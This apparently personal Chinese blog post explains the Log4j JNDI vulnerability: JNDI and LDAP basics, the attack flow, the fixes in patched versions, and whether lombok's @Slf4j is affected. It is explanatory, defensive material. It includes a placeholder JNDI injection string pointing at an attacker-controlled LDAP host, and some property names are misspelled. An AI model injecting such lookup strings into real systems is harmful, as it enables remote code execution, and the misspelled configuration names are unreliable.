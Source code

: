 Java naming dictionary interface （Java 命名和字典接口），像一个字典一样，通过名称去查询对应的对象

Naming：命名服务，通过名称查找实际对象的服务，例如通过域名查询 IP 地址等

Dictionary：名称服务的一种拓展，除了名称服务中已有的名称到对象的关联信息外，还允许拥有属性信息。

在这图中，我们可以看到 SPI 是他的具体实现层。早在 2016年的时候就有人提出过一个议题"[A Journey From JNDI LDAP Manipulation To RCE](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)"，指出当时会有安全问题，2016下半年，jdk 也进行了相关的修复，但是修复的只有 RMI 和 CORBA 方式，LDAP 仍有漏洞，直到此次被爆出。

![Pasted image 20230814075859.png](https://cdn.jsdelivr.net/gh/TongCodeSpace/picForBlog@master/dataPasted%20image%2020230814075859.png)


**LDPA**

Lightweight Directory Access Protocol：轻量目录访问协议

LDAP也是有client端和server端。server端是用来存放资源，client端用来操作增删改查等操作

LDAP 类似于用一个树状结构将数据联系起来(和查询DNS服务挺类似的)层级搜索

**过程**
1. 黑客传入 `${jndi:ldpa://xx.xx.xx.xx:xxx/xxx}` 到业务服务器，并将 Reference 绑定到自己的命名/目录服务中
2. 应用程序执行查找
3. 应用程序连接到攻击者控制的 JNDI 服务并返回对象
4. 应用程序解码响应并触发有效负载

**核心问题**
Java 允许通过 JNDI 远程去下载一个 Class 文件来加载对象

### 修复
![截屏2023-08-14 14.54.35.png](https://cdn.jsdelivr.net/gh/TongCodeSpace/picForBlog@master/data%E6%88%AA%E5%B1%8F2023-08-14%2014.54.35.png)

1. 从2.17.0版本开始(Java 7和Java 6的2.12.3和2.3.1版本)，只有配置中的 lookup 字符串才会递归展开;在任何其他用法中，只解析顶级 lookup，而不解析任何嵌套 lookup。
2. 启用 JNDI 的属性已经从`log4j2.ableleJndi`重命名为三个独立的属性: `log4j2.ableleJndiLookup`、`log4j2.ableleJndiJms`和`log4j2.ableleJndiContextSelector`
3. JNDI 功能在这些版本中得到了加强: 2.3.1、2.12.2、2.12.3或2.17.0。从这些版本开始，对 LDAP 协议的支持已经被删除，只有 JAVA 协议在 JNDI 连接中得到支持。

## 对我们的影响
对于我们来说，除了升级项目中 Log4j 的版本，是不是还需要进行其他的处理。

在项目中，通常我们会使用 @Slf4j 注解来调用日志组件，而 @Slf4j 是来自 lombok 包的，那么在我们升级项目中 log4j 后，lombok 没有升级版本的情况下，@Slf4j 是否还会有安全问题，是否还需要进行其他处理？
![Pasted image 20230804104900.png](https://cdn.jsdelivr.net/gh/TongCodeSpace/picForBlog@master/dataPasted%20image%2020230804104900.png)

因此，在漏洞发现后没多久，有人在 lombok 项目下提出了这个问题，并且 lombok 的作者也做出了回复
![Pasted image 20230804105811.png](https://cdn.jsdelivr.net/gh/TongCodeSpace/picForBlog@master/dataPasted%20image%2020230804105811.png)

> lombok 它本身不会受到影响

这个标题里，有一个很灵魂的词 itself，至于为什么，可以看看作者的回复

> 参考
> [blackhat 2016 年议题](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
> 
> https://docs.oracle.com/javase/tutorial/jndi/overview/index.html
> 
> [github 地址](https://github.com/projectlombok/lombok/issues/3063)
